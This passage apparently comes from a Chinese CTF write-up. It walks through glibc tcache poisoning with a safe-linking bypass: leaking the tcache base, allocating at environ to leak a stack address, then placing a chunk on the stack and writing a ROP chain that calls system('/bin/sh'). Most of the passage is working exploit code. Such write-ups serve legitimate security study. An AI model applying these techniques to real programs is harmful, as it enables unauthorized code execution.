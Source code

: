    ![image-20240715212203926](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152122338.png)

   第一个进入tcache的chunk，由于tcache中的地址为0，所以仅为其本身的next地址右移12位：

   ![image-20240715212937853](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152129122.png)

   ![image-20240715213214241](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152132433.png)

   ![image-20240715213621262](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152136652.png)

   ![image-20240715212429808](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152124071.png)

   ```python
   #获取"tcache基地址"，后续修改next指针伪造chunk时使用
   show(0)
   p.recvuntil(b"\x0a")
   tcache_base = u64(p.recv(5).ljust(8,b"\x00"))
   success("tcache_base==>"+hex(tcache_base))
   ```

3. 申请environ作为fake_chunk（这里申请的地址要以0x10对齐，最低位必须为0，是0x8就需要向上低地址调整），然后泄漏environ中存储的栈地址：

   ```python
   #申请environ堆,泄漏其中的栈地址
   fake_addr = environ_addr
   payload6 = fd_glibc32(tcache_base,fake_addr)
   edit(6,payload6)
   
   #泄漏其中的栈地址
   add()   #9
   add()   #10
   show(10)
   p.recv()
   stack_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("stack_addr==>"+hex(stack_addr))
   ```

   ![image-20240715214544130](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152145494.png)

4. 确定该泄漏的地址，与rbp寄存器的偏移，再申请该**空间为fake_chunk地址**，最后往该地址上写入数据（构造的ROP链）：

   ```python
   #任意分配栈上的chunk
   bp_addr = stack_addr-0x168      #不能直接到rbp的位置,要往前送0x10个字节
   success("bp_addr==>"+hex(bp_addr))
   free(9)
   fake_addr = bp_addr
   payload9 = fd_glibc32(tcache_base,fake_addr)
   edit(9,payload9)
   
   #申请到栈上的chunk,构造ROP链,并修改返回值
   add()   #11
   add()   #12
   payload12 = b"a"*8*3 + p64(pop_rdi_ret) + p64(sh_addr) + p64(system_addr)
   edit(12,payload12)
   ```
